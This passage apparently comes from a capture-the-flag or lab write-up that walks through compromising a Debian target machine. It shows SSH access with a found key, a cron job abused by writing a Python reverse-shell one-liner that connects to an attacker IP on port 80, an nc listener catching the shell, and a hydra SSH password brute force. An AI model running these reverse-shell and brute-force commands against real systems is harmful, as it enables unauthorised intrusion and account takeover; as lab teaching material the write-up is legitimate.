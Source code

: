 3. Initiation: change the mode for that file using `chmod 600 VDSoyuAXiO.txt` and run `ssh` with that key to the target give some error:
```
└─$ ssh -i ./VDSoyuAXiO.txt 192.168.170.49 -p 22
sign_and_send_pubkey: no mutual signature supported
kali@192.168.170.49's password:
```
Running `googler` tool with that output found some page that talk about the same issue and give some solution, you can also check on google about that issue of "sign_and_send_pubkey: no mutual signature supported". I have use the following command to get shell with martin user:
```
ssh -i ./VDSoyuAXiO.txt martin@192.168.170.49 -p 22 -o PubkeyAcceptedKeyTypes=ssh-rsa
...
secret password :
WELCOME !
martin@debian:
```

4. System Enumeration: copy the `linpeas` file to the target and start enumerate the system, found that the users hadi and jimmy exist here, also it bring up the following cron job:
```
martin@debian:~$ cat /etc/crontab
...
*/5   * * * *   jimmy   python /tmp/sekurity.py
```
This mean that this sekurity.py script run as jimmy, checking tmp folder showed that this script not exist, which mean that we can create the reverse shell on python can save it on that sekurity.py name, it will work, but not  sure that jimmy have more privilege then the other, for that case we can use `msfvenom` to create the script, or use pre-prepared script `rshell.py`, or create one line of code and save it to that file name.
```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.216",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > /tmp/sekurity.py
```
Then change the mode to execute `chmod +x /tmp/sekurity.py`, and wait for reverse shell.
```
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.45.216] from (UNKNOWN) [192.168.170.49] 51275
bash: cannot set terminal process group (1514): Inappropriate ioctl for device
bash: no job control in this shell
jimmy@debian:~$ whoami
whoami
jimmy
jimmy@debian:~$
```
Enumerate that user jimmy, but didn't found much.

5. Brute Forcing: since run enumeration for more then hour, trying somthing simple, so far we know that jimmy and hadi exist on that target, so trying run `su` directly from martin session or using `ssh` with that user. found nothing, so going for brute forcing:
```
cat /usr/share/wordlists/rockyou.txt | grep hadi > hadi_pass.txt
hydra -l hadi -P rockyou.txt 192.168.170.49 ssh -I
```
After several minutes it found the password for hadi user:
```
└─$ hydra -l hadi -P hadi_pass.txt 192.168.170.49 ssh -I
...
[22][ssh] host: 192.168.170.49   login: hadi   password: hadi123
1 of 1 target successfully completed, 1 valid password found
```
